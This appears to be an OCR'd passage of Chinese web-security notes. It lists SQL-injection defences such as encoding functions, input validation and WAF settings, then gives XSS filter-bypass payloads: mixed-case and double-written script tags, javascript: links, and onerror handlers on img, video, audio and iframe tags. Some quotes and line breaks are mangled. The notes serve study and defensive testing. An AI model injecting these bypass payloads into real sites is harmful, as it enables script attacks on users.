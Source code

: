 ESAPI.encoder().encodeForSQL(codec, name)
该函数会将 name 中包含的一些特殊字符进行编码，这样 sql 引擎就不会将name中的字符串当成sql命令来进行语法分析了！

intval() // 避免出现数字型注入漏洞
htmlspecialchars() // 字符转换为HTML实体mysql_real_escape_string() // 对字符串中的特殊字符进行转义addslashes() // 预定义字符之前添加反斜杠

#### 3、输入验证

白名单或黑名单过滤

#### 4、编码输出

#### 5、waf进行运行时保护

#### 6、服务器配置修复

#### 7、PHP配置：

```
magic_quotes_gpcmagic_quotes_sybase
```

## 二、xss

### bypass

#### 1、大小写和双写绕过

```
<sCRIpt>aLert(1)</sCRIPT>

<scscriptript>alert(1)</scscriptript>
```

#### 2、a标签

```
<a href=”javascript:onclick=alert(1)”>test</a>

<a href=javascript:alert(1)>test</a>
```

#### 3、src属性

```
<img src=x onerror=alert(1)>

<img/src=x onerror=alert(1)>

<video src=x onerror=alert(1)>

<audio src=x onerror=alert(1)>

<iframe src=”javascript:alert(1)”>
```
